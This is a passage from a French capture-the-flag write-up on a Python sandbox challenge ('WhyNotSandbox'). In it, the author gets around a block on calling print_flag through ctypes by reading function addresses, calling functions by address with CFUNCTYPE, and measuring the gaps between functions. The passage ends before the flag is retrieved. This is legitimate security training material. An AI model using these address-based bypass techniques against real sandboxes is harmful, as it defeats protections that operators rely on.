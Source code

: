 La lib ctypes qui peut être importée, m'offre la possibilité de lancer des fonctions contenues dans un fichier ```.so``` chargé.

Etant donné que la ```lib_flag.so``` est chargée avec le logiciel, je ne devrais pas avoir de mal à appeler la fonction.

```python
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> ctypes.pythonapi.welcome()
Arriverez-vous à appeler la fonction print_flag ?
51
>>> ctypes.pythonapi.print_flag()
Exception: Nom de fichier interdit
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/ctypes/__init__.py", line 386, in __getattr__
    func = self.__getitem__(name)
  File "/usr/lib/python3.8/ctypes/__init__.py", line 391, in __getitem__
    func = self._FuncPtr((name_or_ordinal, self))
Exception: Action interdite
```

Impossible de lancer la fonction en l'appelant par son nom. Il va donc falloir trouver autre chose.

## Appelle de la fonction via son adresse mémoire

Après de nouvelles recherches, je trouve le moyen d'appeler une fonction via son adresse.

```python
>>> import ctypes
>>> ctypes.cast(ctypes.pythonapi.welcome, ctypes.c_void_p).value
140454317666581
>>> f = ctypes.CFUNCTYPE(ctypes.c_void_p)
>>> func = f(140454317666581)
>>> func()
Arriverez-vous à appeler la fonction print_flag ?
51
```

La fontion ```print_flag``` n'étant pas "callable", je vais devoir me baser sur l'adresse mémoire de la fonction ```welcome``` pour retrouver celle de ```print_flag```.

En faisant quelques tests en local, je me rends compte que l'espace entre deux fonctions qui se suivent est de 24 dans la mémoire.

```python
[ aether@ysera  ~/Documents/FCSC/Pwn/WhyNotSandbox  % ] ./spython -S -B -I
Bienvenue
Python 3.8.0 (default, Oct 28 2019, 16:14:01) 
[GCC 8.3.0] on linux
>>> import ctypes
>>> ctypes.cast(ctypes.pythonapi.welcome, ctypes.c_void_p).value#Récupération de l'adresse mémoire de la fonction welcome
140152376960578
>>> ctypes.cast(ctypes.pythonapi.aether, ctypes.c_void_p).value#Récupération de l'adresse mémoire de la fonction aether
140152376960554
>>> 140152376960578 - 140152376960554#Calcul de l'espace entre les deux adresses
24
```
